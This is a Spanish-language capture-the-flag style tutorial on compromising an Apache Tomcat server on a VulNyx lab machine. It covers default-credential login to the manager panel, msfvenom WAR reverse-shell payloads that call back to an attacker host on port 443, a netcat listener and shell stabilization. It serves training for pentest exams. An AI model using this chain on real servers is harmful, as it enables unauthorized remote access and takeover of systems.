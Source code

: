 
----
- TAG: #hacking #Servidor #Tomcat
----
Mis disculpas, aquí está el texto corregido con los títulos y subtítulos añadidos:

---

**Hoy vamos a estar viendo cómo explotar un servidor `Apache Tomcat` vulnerable. Vamos a aprender a generar un **payload msfvenom** que sea compatible con `Tomcat` y obtener intrusión en la máquina víctima.**

Vamos a ver 2 tipos de **payloads** diferentes para probar en un servidor `Tomcat`.

Para este ejemplo, utilizaremos una [Máquina Vulnerable - Deploy](https://vulnyx.com/#deploy).

## Procedimiento

Una vez iniciada, vamos a nuestra máquina **Kali Linux** y realizamos el siguiente procedimiento:

1. **Arp-scan** para localizar la máquina víctima.
2. **Ping** para ver el tipo de TTL y entender a qué nos enfrentamos.
3. **Nmap** para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Al finalizar el escaneo, veremos que nos muestra 3 puertos: `22`, `80` y el puerto `8080`.

En la información del puerto `8080`, observamos que corre un servicio `Tomcat`. Así que nos dirigimos a la dirección IP con el puerto indicado para ver qué nos muestra.

Al principio, parece el inicio normal cuando recién se instala el servicio, sin configurar.

### Acceso al Panel de Configuración

En caso de encontrar un **Tomcat** en el examen, normalmente vendrá así por defecto. Nos dirigimos al vínculo que dice **manager webapp**, donde nos pedirá unas credenciales. Estas credenciales suelen estar por defecto cuando recién se inicia la instalación de **Tomcat**. Si no tienes ni idea, puedes buscar en Google desde otra máquina, ya que en el examen no hay conexión a internet.

**Búsqueda:** hacktricks apache tomcat default credentials

Si abres algún enlace, por ejemplo, este que encontramos:
- [HackTricks - Apache Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

Podríamos probar uno a uno, pero a veces ocurre que al poner "cancelar" automáticamente se muestran el usuario y la contraseña:

![[apachetomcat.png]]

Ahora, si nos logueamos, veremos que entramos al panel principal de configuración de **Tomcat**.

### Carga de Archivos Maliciosos

En una página así, por lo general, se encuentra un panel para la carga de archivos, por ejemplo, el **WAR file to deploy**.

En este apartado, seremos capaces de subir archivos maliciosos para ganar intrusión en la máquina víctima.

Para ello, necesitaremos crear el payload con **msfvenom**:

1. Consultamos nuestra dirección IP privada:
   ```bash
   hostname -I
   ```

2. Utilizamos nuestra dirección para indicarle a msfvenom:
   ```bash
   msfvenom -p java/shell_reverse_tcp LHOST=1.2.3.4 LPORT=443 -f war -o reversel.war
   ```

En Tomcat, la subida de archivos puede funcionar o no, así que aquí se indican dos maneras de crear dos payloads diferentes para probar:

Si el primer payload no funciona, podemos probar con este payload agregando `jsp_`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=1.2.3.4 LPORT=443 -f war -o reverse2.war
```

### Prueba de Payloads

Ahora, si cargamos los archivos, veremos que aparecen en el tablero de inicio. Así que nos ponemos en escucha e intentamos con cada uno de ellos para ver cuál ha funcionado:

```bash
nc -nlvp 443
```

Al probar el primero, veremos que no nos carga y aparece un error. Pero si probamos el segundo payload, obtenemos acceso a la máquina.

### Saneamiento de la Terminal

Ahora realizamos el correcto saneamiento de la terminal:

1. Obtenemos una bash interactiva:
   ```bash
   script /dev/null -c bash
   ```

2. Salimos a la terminal normal y hacemos lo siguiente:
   ```bash
   stty raw -echo; fg
   ```

Recuerda poner lo siguiente en la salida o respuesta:
   ```bash
   reset xterm
   ```

3. Exportamos variables de entorno con:
   ```bash
   export SHELL=bash
   export TERM=xterm
   ```

Y listo, esto sería básicamente cómo explotar una vulnerabilidad de **Apache Tomcat** paso a paso.

---